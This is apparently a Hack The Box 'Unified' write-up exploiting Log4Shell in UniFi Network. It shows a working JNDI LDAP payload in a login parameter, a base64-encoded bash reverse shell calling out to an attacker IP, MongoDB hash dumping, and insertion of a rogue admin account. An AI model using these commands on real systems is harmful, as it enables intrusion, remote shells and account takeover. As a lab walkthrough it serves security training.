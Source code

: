 ```yaml
---
layout: post
title: 'HTB | Unified'
permalink: /htb/starting-point/unified/
---
```


# Enumeration
First we scan the IP:
{% highlight plain %}
# Nmap 7.92 scan initiated Sat Apr 30 17:11:00 2022 as: nmap -A -oN nmap 10.129.213.225
Nmap scan report for 10.129.213.225
Host is up (0.091s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
6789/tcp open  ibm-db2-admin?
8080/tcp open  http-proxy
|_http-open-proxy: Proxy might be redirecting requests
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 431
|     Date: Sat, 30 Apr 2022 21:11:08 GMT
|     Connection: close
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 302 
|     Location: http://localhost:8080/manage
|     Content-Length: 0
|     Date: Sat, 30 Apr 2022 21:11:08 GMT
|     Connection: close
|   RTSPRequest, Socks5: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 435
|     Date: Sat, 30 Apr 2022 21:11:08 GMT
|     Connection: close
|_http-title: Did not follow redirect to https://10.129.213.225:8443/manage
8443/tcp open  ssl/nagios-nsca Nagios NSCA
| http-title: UniFi Network
|_Requested resource was /manage/account/login?redirect=%2Fmanage
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Subject Alternative Name: DNS:UniFi
| Not valid before: 2021-12-30T21:37:24
|_Not valid after:  2024-04-03T21:37:24
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Apr 30 17:13:57 2022 -- 1 IP address (1 host up) scanned in 176.85 seconds
{% endhighlight %}

---

# Explotation
We can see that UniFi Network has the version **6.4.54**, which correspond to **CVE-2021-44228**.
We can use this [guide](https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi) to perform the explotation.

We need to download **Maven** and the exploit:
{% highlight bash %}
> sudo apt install maven
> git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi && mvn package
{% endhighlight %}

Now we need to build a **nc** and send it to the Unified:
{% highlight bash %}
> echo 'bash -c bash -i >&/dev/tcp/10.10.15.167/4444 0>&1' | base64
> java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTUuMTY3LzQ0NDQgMD4mMQo}|{base64,-d}|{bash,-i}" --hostname "10.10.15.167" 
{% endhighlight %}

With Burp we need to capture the login request and change the parameter **"remember"** with: **"${jndi:ldap://10.10.15.167:1389/o=tomcate}"**.
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/starting-point/img/01-13-00-44.png" weight="100%" />

Open a nc on the port 4444 and send the request in Burp, now we have the reverse shell-

---

# Privilage Escalation
We know that Unified use MongoDB. First we will dump the password hashes from the database:
{% highlight bash %}
> mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
{% endhighlight %}

We can try to crack the admin password, but we will add a new super user. First we make a new hash.
{% highlight bash %}
> mkpasswd -m sha-512 1234
{% endhighlight %}

Then we add the user:
{% highlight bash %}
> mongo --port 27117 ace --eval 'db.admin.insert({ "email" : "admin@localhost.local", "last_site_name" : "default", "name" : "admin", "time_created" : NumberLong(100019800), "x_shadow" : "$6$qm/d5rgtChdHSEXn$.YaObD5D3HuqhAXKtj7vpEn5Fwmw9yPgkydVUySQ2bBv522IEaSWr3.kYxLa22n5qHcXxU2ANiQzOrh.G4dli." })'
{% endhighlight %}
We can check it we the same command.
{% highlight bash %}
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
{% endhighlight %}

Now we need to copy our **object id** and the admin **object id** and replace:
{% highlight bash %}
> mongo --port 27117 ace --eval 'db.privilege.insert({ "admin_id" : "626e85b9f56273cd5f3e6b9e", "permissions" : [ ], "role" : "admin", "site_id" : "61ce278f46e0fb0012d47ee4" });'
{% endhighlight %}

Now we can login with our new user. We can find ssh credentials inside the configuration, so we can login with root.